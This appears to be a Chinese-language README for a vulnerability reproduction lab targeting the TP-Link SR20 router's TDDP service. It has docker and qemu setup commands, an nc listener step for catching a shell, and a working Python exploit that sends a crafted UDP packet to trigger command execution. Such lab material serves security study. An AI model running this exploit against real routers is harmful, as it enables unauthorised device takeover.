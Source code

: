 # TP-Link SR20 本地代码执行漏洞

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- tddp（有漏洞服务）：192.168.2.2:1040
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新打开一个窗口
$ docker exec -it tplink-system /bin/bash

# 宿主机使用 nc 监听端口
$ nc -lvnp 1337

# 在另一个窗口执行 poc，执行的命令在 exe_nc 中
$ python2 tools/poc.py 192.168.2.2 /exe_nc
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

## 参考链接

- <https://bbs.pediy.com/thread-263539.htm>
